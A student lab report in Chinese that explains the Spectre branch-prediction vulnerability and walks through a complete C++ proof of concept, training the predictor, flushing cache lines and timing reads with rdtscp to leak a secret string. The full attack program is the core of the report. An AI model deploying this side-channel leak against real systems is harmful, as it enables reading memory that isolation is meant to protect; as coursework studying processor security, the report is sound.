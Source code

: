 ## 实验：Spectre 攻击验证

张一可 计15 2021010793

### 实验目的

CPU 的分支预测技术存在安全漏洞，在预测失败的情况下，CPU 不会恢复缓存状态。Spectre 漏洞正是利用 CPU 在分支预测失败后不会清空 Cache 的特性， 通过 Cache 测信道读取敏感信息。

实验通过实现 Spectre 攻击样例，理解 CPU 工作原理及其中存在的安全问题，加深对处理器安全的认识。

### 实验环境

1. 装有 Ubuntu 操作系统的主机
2. 主机状态 Intel 处理器

### 实验原理

实验的核心原理在于利用如下的 victim_function 函数。在调用 victim_function 前，先通过 cflush 将 spy_size 从缓存中清除，从内存中读取 spy_size 的同时，由于我们通过训练使 CPU 认为分支预测成功，CPU 会根据分支预测的结果提前读取 spy[x] 和 cache_set[spy[x] * 512] 的数据放入缓存。分支预测失败后，缓存中的结果不会被清除，因此读取速度更快，可以通过比较 cache_set 各位置元素的读取速度，得到 spy[x] 即敏感字符串的值。

```c++
void victim_function(size_t x) {
	if (x < spy_size) {
		temp &= cache_set[spy[x] * 512];
	}
}
```

对于敏感字符串中的每个字符，首先计算其相对于 spy 数组的位置 malicious_x：

```c++
size_t malicious_x = (size_t)(secret - (char *)spy);
```

随后重复 1000 次测试，在每轮测试中，首先通过 cflush 将 cache_set 从缓存中驱逐，再通过训练 CPU 分支预测器读取敏感数据到 cache 中。训练 CPU 分支预测的代码片段如下，重复 5 轮，每轮前 5 次调用 victim_function 访问某个 x < spy_size 的合法位置，使分支预测成功，最后一次访问 spy[malicious_x]，读取敏感数据。需要注意每次调用 victim_function 前需要将 spy_size 从缓存中清除，确保程序有足够的时间读取敏感数据到内存。调用那个 cflush 后，需要加入一定的延迟时间完成缓存的同步。

```c++
for (j = 29; j >= 0; j--) {
    _mm_clflush(&array1_size);
    for (volatile int z = 0; z < 100; z++) {} 
    
    x = ((j % 6) - 1) & ~0xFFFF;
    x = (x | (x >> 16));
    x = training_x ^ (x & (malicious_x ^ training_x));

    victim_function(x);
}
```

训练分支预测时，5 次 training_x，1 次 malicious_x 的规律同样容易被 CPU 分支预测部件优化，因此这里采用位操作将 x 在 j%6=0 时设为 malicious_x，在其他情况下设为 training_x，同时保证了实现的简洁性。

读取 cache_set[spy[x]] 数据到缓存后，通过比较 cache_set 各个位置的读取时间，利用缓存测信道信息得到对应的 spy[x] 的值。在如下的代码实现中，依次读取 cache_set[i * 512] 的值，并通过两次 rdtsc 时间戳的差值得到读取时间。若读取时间小于某个阈值，则认为此次读取是从缓存中得到的，将 results[i] 的值累加1。需要注意为了防止 CPU 在等间隔内存访问时，通过某些优化机制判断下次读取位置并预取到缓存中，应避免按顺序依次读取 cache_set，而对读取顺序进行置换。

```c++
for (i = 0; i < 256; i++) {
    mix_i = ((i * 167) + 13) & 255;
    addr = &cache_set[mix_i * 512];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD && mix_i != spy[training_x])
        results[mix_i]++;
}
```

执行上述测试 1000 次后，results 数组中最大元素对应的下标即为对应 spy[malicious_x] 的值，依次判断并输出，便可得到敏感字符串的全部信息。

### 算法实现

完整的代码实现如下：

```c++
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <x86intrin.h>
#define CACHE_HIT_THRESHOLD (100)

unsigned int spy_size = 16;
uint8_t cache_set[256 * 512];
uint8_t spy[16] = {1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16};
const char* secret = "The Secret data. abcdefg";
uint8_t temp = 0;
int results[256];

void victim_function(size_t x) {
	if (x < spy_size) {
		temp &= cache_set[spy[x] * 512];
	}
}

uint8_t read_char(size_t malicious_x) {
	int tries, i, j, k, mix_i;
	unsigned int junk = 0;
	size_t training_x, x;
	uint64_t time1, time2;
	volatile uint8_t* addr;

	for (i = 0; i < 256; i++)
		results[i] = 0;
	for (tries = 999; tries > 0; tries--) {
		for (i = 0; i < 256; i++)
			_mm_clflush(&cache_set[i * 512]); 
		
		training_x = tries % spy_size;
		for (j = 29; j >= 0; j--) {
			_mm_clflush(&spy_size);
			for (volatile int z = 0; z < 100; z++) {} 
			x = ((j % 6) - 1) & ~0xFFFF; 
			x = (x | (x >> 16));
			x = training_x ^ (x & (malicious_x ^ training_x));
			victim_function(x);
		}

		for (i = 0; i < 256; i++) {
			mix_i = ((i * 167) + 13) & 255;
			addr = &cache_set[mix_i * 512];
			time1 = __rdtscp(&junk);
			junk = *addr;
			time2 = __rdtscp(&junk) - time1;
			if (time2 <= CACHE_HIT_THRESHOLD && mix_i != spy[training_x])
				results[mix_i]++;
		}
	}
    int max_time = 0, rst;
    for (i = 0; i < 256; i++) {
        if (results[i] > max_time) {
            rst = i;
            max_time = results[i];
        }
    }
    return rst;
}

int main() {
	size_t malicious_x = (size_t)(secret - (char *)spy);
	int len = strlen(secret);

	for (size_t i = 0; i < sizeof(cache_set); i++)
		cache_set[i] = 1; 

	while (--len >= 0) {
		uint8_t rst = read_char(malicious_x++);
        printf("%c", static_cast<char>(rst));
	}
    printf("\n");
	return 0;
}
```

### 实验结果

实现的 Spectre 攻击程序可以成功读取字符串 secret 中的敏感数据：

<img src="pics/image-20240609092419377.png" alt="image-20240609092419377" style="zoom:80%;"/>

<img src="pics/image-20240609092403735.png" alt="image-20240609092403735" style="zoom:70%;"/>

### 参考资料

https://github.com/Eugnis/spectre-attack.git